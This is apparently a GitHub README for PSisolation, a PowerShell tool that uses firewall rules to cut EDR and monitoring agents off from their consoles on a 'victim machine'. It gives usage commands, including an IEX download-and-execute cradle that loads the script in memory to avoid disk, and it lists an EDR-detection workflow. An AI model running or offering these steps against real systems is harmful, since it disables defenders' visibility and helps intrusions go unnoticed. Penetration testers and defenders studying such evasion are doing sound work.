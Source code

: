 # PSisolation

## Overview
PS-Isolation is a specialized tool designed to prevent EDR (Endpoint Detection and Response) and monitoring processes from communicating with their consoles. By leveraging Windows Defender Firewall rules and PowerShell automation, this script dynamically identifies and blocks network traffic for specific monitoring agents and processes. 

I also wrote this [article](https://blog.y00ga.lol/PERSO/PUBLISH/Article+perso/PSisolation%2C+in+Cyberspace+No+One+Can+Hear+You+Scream#New-NetFirewallRule) if you want to learn a bit more about it

## Key Features
- Automated Detection: Identifies EDR and monitoring tools running on the system based on predefined and customizable keywords.
- Dynamic Firewall Rules: Implements outbound traffic filtering for detected processes, preventing telemetry from reaching monitoring consoles.
- Customizable rule : Choose to block a specific processes.
- Stealth : Operates entirely in PowerShell, which you can import in memory without touching disk, ensuring minimal system footprint.
- Simple Cleanup: Quickly revert all custom rules and restore normal operations with a single command.

## Use Cases
- Isolate specific processes or tools to prevent them from reporting telemetry during engagements.
- Test EDR visibility and response.
- Enumerate potential exclusions on system without triggering alerts

## Important Notes
- Educational Purposes Only: This tool is intended for research, penetration testing engagements, and educational purposes        
- Requires Administrative Privileges to create rules

## Getting Started

- Import the script in memory

````
IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/y00ga-sec/PSisolation/refs/heads/main/PSisolation.ps1')
````

- Block outgoing traffic by running directly

````
Block-MonitoringProc
````
https://github.com/user-attachments/assets/a8b62fc7-5132-477b-9489-c569c41bcc78

- or a specific process you want with : 

````
Block-SpecificProcessTraffic -ProcessPath <executablefull path>
````

- When you're done, run this to remove all rules created by the tool :

````
Unblock-AllFilters
````

https://github.com/user-attachments/assets/a647de1e-9314-4d73-886c-ba8f4cbb7356

------
# But what if the target machine does not use Windows Defender Firewall ?

Well the script got you covered ! Logic is the following :

- If PSisolation detects the victim machine has Windows Firewall enabled --> Simply retrieves EDR services name and associated executable path and create outgoing blocking firewall rules
- Otherwise, PSisolation will :
   - Backup every rule on the machine in a temporary file
   - Create outgoing blocking firewall rules for EDRs
   - Enable Windows Defender Firewall so that the PSisolation blocking rules take effect and disable every rule to avoid blocking production traffic
   - Once you're done and run `Unblock-AllFilters`, the script will restore every rule/rule state from the temporary backup file (which will also delete PSisolation blocking rules)
   - Delete rules backup temporary file
   - Restore Windows Defender Firewall to its previous state 

